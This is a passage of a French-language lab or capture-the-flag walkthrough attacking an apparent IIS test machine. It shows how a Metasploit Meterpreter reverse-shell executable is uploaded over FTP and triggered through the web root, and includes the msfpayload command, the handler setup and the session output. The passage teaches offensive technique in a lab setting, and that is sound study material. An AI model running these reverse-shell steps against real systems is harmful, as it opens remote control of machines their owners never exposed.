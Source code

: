 ```plain
07-21-01  02:21PM                 2581 stopweb.vbs
07-21-01  02:21PM                 6064 synciwam.vbs

.\wwwroot:
12-08-11  01:56PM               272367 backgroup.jpg
12-10-11  02:55PM                  101 hint.html
02-12-13  12:46PM                 1228 index.html
226 Transfer complete.
```

Le dossier *AdminScripts* semble contenir des fichiers par défaut pour une install IIS. Le *wwwroot* est bien sûr la racine web du site.  

Dans le fichier *hint.html* on trouve le texte suivant :

```plain
#1 This very common Windows file is not downloaded or interpretered but rather executed server side
```

Soit ! On génère une backdoor *Metasploit* (un reverse-shell meterpreter) que l'on uploade sur le FTP (attention à être en mode binaire) :  

```plain
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=9999 X > /tmp/rbd.exe
```

On met en place un handler d'écoute et on ouvre la page via le navigateur pour provoquer l'exécution :  

```plain
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.3
LHOST => 192.168.1.3
msf exploit(handler) > set LPORT 9999
LPORT => 9999
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.3:9999 
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.11
[*] Meterpreter session 1 opened (192.168.1.3:9999 -> 192.168.1.11:1061) at 2014-03-26 08:25:14 +0100
meterpreter > ps

Process List
============

 PID   PPID  Name              Arch  Session     User              Path
 ---   ----  ----              ----  -------     ----              ----
 0     0     [System Process]        4294967295                    
 4     0     System                  4294967295                    
 348   4     smss.exe                4294967295                    
 396   348   csrss.exe               4294967295                    
 420   348   winlogon.exe            4294967295                    
 472   420   services.exe            4294967295                    
 484   420   lsass.exe               4294967295                    
 636   472   svchost.exe             4294967295                    
 696   472   svchost.exe             4294967295                    
 772   472   svchost.exe             4294967295                    
 820   472   svchost.exe             4294967295                    
 856   472   svchost.exe             4294967295                    
 984   472   spoolsv.exe             4294967295                    
 1040  420   logonui.exe             4294967295                    
 1396  1580  rbd.exe           x86   0           BOBBY\IUSR_BOBBY  \\?\c:\inetpub\wwwroot\rbd.exe
 1428  420   logon.scr               4294967295                    
```